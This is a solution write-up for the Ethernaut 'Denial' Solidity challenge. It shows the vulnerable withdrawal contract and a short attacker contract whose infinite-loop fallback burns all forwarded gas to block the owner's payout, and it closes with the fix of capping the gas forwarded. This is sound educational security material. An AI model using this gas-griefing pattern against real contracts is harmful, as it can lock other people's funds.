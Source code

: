 # [20. Denial](https://ethernaut.openzeppelin.com/level/0xf1D573178225513eDAA795bE9206f7E311EeDEc3)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Denial {
  using SafeMath for uint256;
  address public partner; // withdrawal partner - pay the gas, split the withdraw
  address payable public constant owner = address(0xA9E);
  uint timeLastWithdrawn;
  mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

  function setWithdrawPartner(address _partner) public {
    partner = _partner;
  }

  // withdraw 1% to recipient and 1% to owner
  function withdraw() public {
    uint amountToSend = address(this).balance.div(100);
    // perform a call without checking return
    // The recipient can revert, the owner will still get their share
    partner.call{value:amountToSend}("");
    owner.transfer(amountToSend);
    // keep track of last withdrawal time
    timeLastWithdrawn = now;
    withdrawPartnerBalances[partner] = withdrawPartnerBalances[partner].add(amountToSend);
  }

  // allow deposit of funds
  receive() external payable {}

  // convenience function
  function contractBalance() public view returns (uint) {
    return address(this).balance;
  }
}
```

In this level, the exploit has to do with `call` function: `partner.call{value:amountToSend}("")`. Here, a `call` is made to the partner address, with empty `msg.data` and `amountToSend` value. When using `call`, if you do not specify the amount of gas to forward, it will forward everything! As the comment line says, reverting the call will not affect the execution, but what if we consume all gas in that call?

That is the attack. We will write a `fallback` function because the call is made with no message data, and we will just put an infinite loop in there:

```solidity
contract BadPartner { 
  fallback() external payable {
    while (true) {}
  } 
}
```

We then set the withdrawal partner as this contract address, and we are done. Note that `call` can use at most 63/64 of the remaining gas (see [EIP-150](https://github.com/ethereum/EIPs/blob/master/EIPS/eip-150.md)). If 1/64 of the gas is enough to finish the rest of the stuff, you are good. To be safe though, just specify the amount of gas to forward.
